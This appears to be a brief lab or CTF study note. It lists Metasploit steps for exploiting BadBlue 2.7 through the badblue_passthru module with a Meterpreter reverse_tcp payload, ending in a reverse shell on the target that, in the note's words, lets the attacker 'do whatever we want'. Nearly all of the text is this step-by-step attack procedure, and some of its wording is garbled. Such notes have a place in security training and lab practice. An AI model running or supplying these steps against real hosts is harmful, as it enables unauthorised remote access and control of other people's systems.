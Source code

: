 ### Exploit ###

In this case, msfconsole has a vulnerability 
+ Will `search badblue 2.7`
+ can `use exploit/windows/http/badblue_passthru`
+ `set rhosts IP`
+ `set payload windows/meterpreter/reverse_tcp`
+ `set lhost eth1`
+ once in meterpreter, type `shell`

Now have a <mark style="background: #FFB86CA6;">reverse shell</mark>
+ Can do whatever we want from there
